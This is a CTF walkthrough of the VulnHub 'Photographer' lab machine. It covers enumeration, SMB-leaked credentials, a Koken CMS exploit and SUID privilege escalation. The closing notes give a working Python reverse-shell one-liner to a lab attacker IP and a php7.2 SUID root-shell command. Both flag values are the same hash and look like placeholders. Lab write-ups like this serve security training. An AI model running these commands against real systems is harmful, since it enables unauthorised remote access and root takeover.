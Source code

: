 ```yaml
---
categories: [VulnHub, Walkthrough]
tags: [PrivEsc]
---
```

# Photographer


## **Description ⤵️**


💡 [Photographer : 1](https://vulnhub.com/entry/photographer-1,519/) ⤵️

This machine was developed to prepare for OSCP. It is boot2root, tested on VirtualBox (but works on VMWare) and has two flags: user.txt and proof.txt.



Let’s find the IP Address first >>

```bash
IP : 10.0.2.25
```

## Port Scan Results ➡️

![124-1.png](/Vulnhub-Files/img/Photographer/124-1.png)

![124-2.png](/Vulnhub-Files/img/Photographer/124-2.png)

```bash
OPEN PORTS >
80   HTTP
139  SMB
445  SMB
8000 HTTP
```

---

## Web Enumeration ⤵️

![125-1.png](/Vulnhub-Files/img/Photographer/125-1.png)

Lets first do some directory traversal →

![127-1.png](/Vulnhub-Files/img/Photographer/127-1.png)

![125-2.png](/Vulnhub-Files/img/Photographer/125-2.png)

![125-3.png](/Vulnhub-Files/img/Photographer/125-3.png)

Lets check the SMB part →

![128-1.png](/Vulnhub-Files/img/Photographer/128-1.png)

![128-2.png](/Vulnhub-Files/img/Photographer/128-2.png)

![128-3.png](/Vulnhub-Files/img/Photographer/128-3.png)

```bash
Lets try these credentials → 
→ agi@photographer.com
→ daisa@photographer.com
→ my babygirl
So the final credentials were → 
ID     : daisa@photographer.com
pass : babygirl
```

![128-4.png](/Vulnhub-Files/img/Photographer/128-4.png)

Now after login to koken site Let's further Enumerate →

![125-4.png](/Vulnhub-Files/img/Photographer/125-4.png)

Let's follow the exploit path →

![125-5.png](/Vulnhub-Files/img/Photographer/125-5.png)

![125-6.png](/Vulnhub-Files/img/Photographer/125-6.png)

got the results →

![125-7.png](/Vulnhub-Files/img/Photographer/125-7.png)

Then I executed the python reverse shell code and I got this →

![126-1.png](/Vulnhub-Files/img/Photographer/126-1.png)

![126-2.png](/Vulnhub-Files/img/Photographer/126-2.png)

```bash
user.txt → d41d8cd98f00b204e9800998ecf8427e
```

while cheching the SUID file I got this →

![126-3.png](/Vulnhub-Files/img/Photographer/126-3.png)

![126-4.png](/Vulnhub-Files/img/Photographer/126-4.png)

![126-5.png](/Vulnhub-Files/img/Photographer/126-5.png)

![126-6.png](/Vulnhub-Files/img/Photographer/126-6.png)

```bash
proof.txt → d41d8cd98f00b204e9800998ecf8427e
```

---

# **Summery Notes →**

Koken 0.22.24

daisa@photographer.com

agi@photographer.com

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

`.**/**usr**/**bin**/**php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"`
